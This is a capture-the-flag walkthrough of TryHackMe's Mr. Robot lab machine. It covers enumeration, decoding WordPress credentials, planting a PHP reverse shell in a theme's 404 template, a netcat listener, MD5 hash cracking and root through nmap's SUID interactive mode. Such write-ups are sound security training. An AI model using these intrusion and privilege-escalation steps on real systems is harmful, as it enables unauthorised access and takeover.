Introduction
Hello everyone! Sh4d0wSpl01t here. Today we're going to dive deep into Mr. Robot, a medium-level machine on TryHackMe inspired by the hit TV series. This room challenges us with real-world techniques including web enumeration, WordPress exploitation, password cracking, and privilege escalation via SUID binaries.
What makes this box particularly interesting is that it forces us to think about multiple attack vectors:
- Hidden directories and information disclosure via /robots.txt
- WordPress credential brute-forcing with a custom dictionary
- Reverse shell manipulation through theme injection
- SUID binary abuse for root privilege escalation
Let's hack our way into the system — just like our favorite hacker, Elliot.
Phase 1: Reconnaissance
As with any penetration test, we start with enumeration. Our weapon of choice? Nmap — the Swiss Army knife of network scanning.
nmap -sC -sV -oN nmap-initial.txt 10.10.x.x
Scan Results:

Phase 2: Web Enumeration — The Robots.txt Discovery
Navigating to http://10.146.157.129 reveals a stylish landing page. But the real treasure lies in hidden directories. Let's brute-force:
ffuf -u http://10.10.x.x/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Ffuf scan results:

Now we have successfully enumerated potentially available directories for us to navigate to. The robots folder seems interesting. So first navigate to http://ip.addr/robots

Boom! Two immediate findings:
First Flag — Key 1 of 3
I will use curl to extract the information stored within key-1-of-3.txt
curl http://10.10.x.x/key-1-of-3.txt
Copy this flag and submit it. First key down!
The Dictionary File
We also need to download the wordlist fsocity.dic which will come in handy later.
Using curl:
curl -O http://10.10.x.x/fsocity.dic
The wordlist 'fsocity.dic' contains a lot of repetitive words. Let's clean the file and redirect the clean output to a new file.
sort fsocity.dic | uniq > fsocity-clean.dic
Using curl lets dump information from the directories we got from our ffuf scan results.
curl http://10.10.x.x/license
The license folder has nothing much on it but if you scroll down you will find something interesting and worth looking into.

We can see a base64 text embedded into the license directory. Let's decode to see what it has for us.
echo '<base64 string>' | base64 -d
After decoding we have found a note rather a credential to use on the WordPress login page.
Phase 3: WordPress Discovery & Brute Force
The presence of wp-login confirms a WordPress installation. We are required to fill in the field parameters username and password for us to successfully have been granted access to whatever lies behind this page.
Let's navigate to the WordPress login page:

Phase 4: Gaining Foothold — WordPress to Reverse Shell
Log into WordPress admin panel:
http://ip.addr/wp-login
Username: elliot
Password: ER28-0652Uploading the Reverse Shell
- Navigate to Appearance → Theme Editor
- Select the 404.php template (often overlooked but perfect for our needs)
- Replace the content with a PHP reverse shell

Click Update File to save.
Starting the Listener
On your attacking machine:
nc -lvnp 1234Triggering the Shell
Visit any non-existent page or directly access the 404 template:
curl http://ip.addr/?404.php
Connection established! We have a reverse shell as the daemon user.
Stabilizing the Shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=/bin/bash
# Press Ctrl+Z, then run:
stty raw -echo; fgPhase 5: Privilege Escalation — From Daemon to Robot
Now that we have a foothold, let's explore the system:
ls -la /homeWe see a user named robot. Navigate to their directory:
cd /home/robot
ls -laFinding the Password Hash
cat password.raw-md5
Output:
robot:c3fcd3d76192e4007dfb496cca67e13bThis is an MD5 hash. Let's crack it using John the Ripper or an online service:
echo "c3fcd3d76192e4007dfb496cca67e13b" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Cracked password: abcdefghijklmnopqrstuvwxyz
Switching to Robot User
su robot
Password: abcdefghijklmnopqrstuvwxyzSecond Flag — Key 2 of 3
cat /home/robot/key-2-of-3.txt
Copy this flag and submit it. Second key down!
Phase 6: Privilege Escalation — From Robot to Root
Now we need root access. Let's check for SUID binaries — files that run with the owner's privileges:
find / -type f -perm -04000 2>/dev/null
Interesting SUID Binary Found: nmap
ls -l /usr/local/bin/nmap
Nmap has an interactive mode that allows command execution. Since it runs as root, we can spawn a root shell:
nmap --interactive
!sh
Navigate to the root directory:
cd /rootNow list the contents in the root directory:
lsThird Flag — Key 3 of 3
cat /root/key-3-of-3.txt
Copy this flag and submit it. All three keys captured!